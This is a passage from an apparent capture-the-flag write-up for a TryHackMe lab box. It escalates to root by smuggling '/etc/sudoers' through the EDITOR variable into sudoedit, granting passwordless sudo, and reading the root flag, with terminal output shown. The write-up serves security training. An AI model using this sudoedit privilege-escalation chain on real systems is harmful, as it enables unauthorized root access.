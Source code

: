 ### We see that we can run ```sudoedit``` as root without a password for this file ```/etc/nginx/sites-available/admin.cyprusbank.thm```

### Let open this in Editor
```
export EDITOR="nano -- /etc/sudoers"
```
```
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

```
web ALL=(root) NOPASSWD: ALL
```
```
sudo su
```
```
web@cyprusbank:~/app$ export SUDO_EDITOR='nano -- /etc/sudoers'
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
sudoedit: --: editing files in a writable directory is not permitted
web@cyprusbank:~/app$ sudo su
root@cyprusbank:/home/web/app# cat /root/root.txt
THM{4nd_****4g3s}
root@cyprusbank:/home/web/app# 
```
done





![Screenshot from 2024-11-09 22-08-29](https://github.com/user-attachments/assets/2a337717-25d7-4863-9adb-6006dd2d467f)
![Screenshot from 2024-11-09 22-05-30](https://github.com/user-attachments/assets/850ca083-3892-423f-b43e-94c0b1daf80d)
![Screenshot from 2024-11-09 22-05-23](https://github.com/user-attachments/assets/c33f75c6-43a2-4745-b2c7-0874963b1129)






<div align="center">
  <img src="" height="400"></img>
</div>
